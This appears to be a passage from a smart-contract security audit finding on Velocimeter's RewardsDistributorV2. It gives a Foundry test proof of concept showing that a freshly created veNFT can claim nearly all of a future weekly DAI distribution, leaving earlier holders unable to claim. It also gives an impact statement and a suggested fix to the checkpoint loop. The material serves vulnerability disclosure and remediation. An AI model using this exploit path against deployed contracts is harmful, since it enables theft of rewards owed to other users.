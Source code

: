 Copy below codes to [RewardsDistributorV2.t.sol](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/test/RewardsDistributorV2.t.sol) and run `forge test --match-test testStealFutureDistributeReward`
```solidity
    function testStealFutureDistributeReward() public {
        initializeVotingEscrow();

        vm.warp((block.timestamp + 1 weeks) / 1 weeks * 1 weeks); 
        minter.update_period();
        //@audit-info malicious can mint a new nft (tokenId == 3) to steal future distribution reward
        flowDaiPair.approve(address(escrow), 2e18);
        escrow.create_lock(2e18,50 weeks);
        //@audit-info 10e18 DAI was deposited into distributor
        DAI.transfer(address(distributor), 10e18);
        vm.warp(block.timestamp + 1 weeks);
        //@audit-info update_period() is called to update  `tokens_per_week`
        minter.update_period();
        //@audit-info the owner of token3 is eligible to claim almost all distribution reward
        assertApproxEqAbs(distributor.claimable(3),  10e18, 0.2e18);
        distributor.claim(3);
        //@audit-info distributor doesn't have enough DAI for token1 to claim
        assertLt(DAI.balanceOf(address(distributor)), 0.2e18);
        assertEq(distributor.claimable(1), 5e18);
        vm.expectRevert();
        distributor.claim(1);
    }
```
## Impact
A malicious user could create a new veNFT to steal future distribution rewards, leaving other eligible users without any rewards to claim.
## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/RewardsDistributorV2.sol#L149
## Tool used

Manual Review

## Recommendation
Make sure that `ve_supply[t]` should be only updated when `t` week has end (`t + 1 weeks <= block.timestamp`):
```diff
    function _checkpoint_total_supply() internal {
        address ve = voting_escrow;
        uint t = time_cursor;
        uint rounded_timestamp = block.timestamp / WEEK * WEEK;
        IVotingEscrow(ve).checkpoint();

        for (uint i = 0; i < 20; i++) {
-           if (t > rounded_timestamp) {
+           if (t >= rounded_timestamp) {
                break;
            } else {
                uint epoch = _find_timestamp_epoch(ve, t);
                IVotingEscrow.Point memory pt = IVotingEscrow(ve).point_history(epoch);
                int128 dt = 0;
                if (t > pt.ts) {
                    dt = int128(int256(t - pt.ts));
                }
                ve_supply[t] = Math.max(uint(int256(pt.bias - pt.slope * dt)), 0);
            }
```